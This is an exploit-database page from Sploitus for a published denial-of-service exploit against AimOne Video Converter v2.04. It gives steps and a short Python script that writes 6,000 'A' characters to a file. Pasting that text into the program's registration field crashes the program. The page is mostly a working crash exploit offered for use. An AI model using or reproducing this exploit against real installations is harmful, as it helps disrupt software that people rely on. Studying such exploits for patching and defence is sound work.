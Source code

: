 ```yaml
---
title: AimOne Video Converter V2.04 Build 103 Denial of Service Exploit exploit
url: https://sploitus.com/exploit?id=1337DAY-ID-38132&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-01-01
fetch_date: 2025-10-04T02:50:25.335441
---
```


# AimOne Video Converter V2.04 Build 103 Denial of Service Exploit exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# AimOne Video Converter V2.04 Build 103 Denial of Service Exploit

2022-12-31 | CVSS 7.4

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=1337DAY-ID-38132
# Exploit Title: AimOne Video Converter V2.04 Build 103 Denial of Service Exploit
# Date: 30.12.2022
# Vendor Homepage:www.aimonesoft.com
# Software Link:  https://aimone-video-converter.software.informer.com/download/#downloading
# Exploit Author: Achilles
# Tested Version: v2.04
# Tested on: Windows 7 x64
#

# 1.- Run python code :AimOne.py
# 2.- Open EVIL.txt and copy content to clipboard
# 3.- Open AimOne Video Converter and Click 'Register'
# 4.- Paste the content of EVIL.txt into the Field: 'Name and Code'
# 5.- Click 'OK' and you will see a crash.

#!/usr/bin/env python
buffer = "\x41" * 6000

try:
	f=open("Evil.txt","w")
	print "[+] Creating %s bytes evil payload.." %len(buffer)
	f.write(buffer)
	f.close()
	print "[+] File created!"
except:
	print "File cannot be created"
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)